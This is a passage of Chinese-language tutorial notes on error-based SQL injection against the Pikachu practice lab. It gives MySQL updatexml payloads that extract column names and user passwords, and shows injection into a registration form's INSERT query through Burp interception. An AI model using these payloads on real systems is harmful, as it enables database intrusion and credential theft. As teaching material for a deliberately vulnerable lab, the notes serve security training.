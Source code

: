       5、爆字段

      获取字段名，输入：k' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit **2**,1)),0)#

      6、爆字段内容

      获取字段内容，输入：k' and  updatexml(1,concat(0x7e,(select password from users limit 0,1)),0)#

    - extractvalue（） :函数也是MYSQL对XML文档数据进行查询的XPATH函数.

    - floor（）:MYSQL中用来取整的函数.

- insert注入

  - 前端注册的信息最终会被后台通过insert这个操作插入数据库，后台在接受前端的注册数据时没有做防SQL注入的处理

  - 进入网站注册页面，填写网站注册相关信息，通过Burp抓包在用户名输入相关payload

    oldboy'or updatexml(1,concat(0x7e,(命令)),0) or'

    \1. 爆表名

    oldboy'or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu' limit 0,1)),0) or'

    ![img](/image/sql/wps1.jpg) 

    \2. 爆列名

    ' or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 2,1)),0) or'

